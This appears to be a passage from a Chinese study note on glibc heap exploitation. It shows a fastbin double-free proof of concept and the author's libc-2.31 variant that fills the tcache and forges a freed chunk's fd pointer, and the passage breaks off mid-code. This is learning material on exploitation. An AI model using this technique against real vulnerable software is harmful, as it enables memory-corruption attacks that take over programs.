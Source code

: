 ```c
	char *a = calloc(1, 8); // 必须用calloc。。。
	char *b = calloc(1, 8);
	char *c = calloc(1, 8);

	
	// fastbin
	free(a);
	free(b);
	free(a);
	// a->b->a
	a = calloc(1, 8);
	b = calloc(1, 8);
	char *c1 = calloc(1, 8);

	printf("chunk A1 @ %p\n",a);
	printf("chunk C1 @ %p\n",c1);
	assert(a==c1);
	return 0;
}

```



他这里必须用calloc分配。。。malloc就会报错。。。

我觉得不如stach的new fastbin double free

然后自己写了个这种double free的伪造fd。

不得不说，自己用C写还是够呛，好多指针转换不熟悉。

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

signed main(){
	
	/*
	The fastbin double free under libc-2.31

	*/

	// fill up tcache
	char *tcache[15];
	for(int i=0;i<7;i++){
		tcache[i] = malloc(0x40);
	}
	for(int i=0;i<7;i++){
		free(tcache[i]);
	}
	char *a = calloc(1, 0x40);
	char *b = calloc(1, 0x40);
	char *c = calloc(1, 0x40);

	
	// fastbin
	free(a);
	free(b);
	free(a);
	// a->b->a
	a = calloc(1, 0x40);
	long long *a_ptr = (long long*)a;
	a_ptr[0] = c-0x10;
	b = calloc(1, 0x40);
```